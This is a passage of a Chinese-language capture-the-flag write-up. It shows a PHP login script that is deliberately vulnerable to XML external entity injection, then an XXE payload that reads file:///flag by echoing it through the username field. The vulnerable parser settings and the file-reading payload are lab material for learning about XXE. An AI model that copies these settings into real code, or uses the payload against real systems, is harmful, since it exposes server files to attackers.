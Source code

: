 可以得到下面的源码内容：

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //è´¦å·
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //å¯ç 
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

发现只要我们发送的表单中包含了username字段，那么就可以实现回显，搜易可以构建下面的payload实现flag的读取：

```php
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "file:///flag">
  ]>
<user><username>&admin;</username></user>
```

---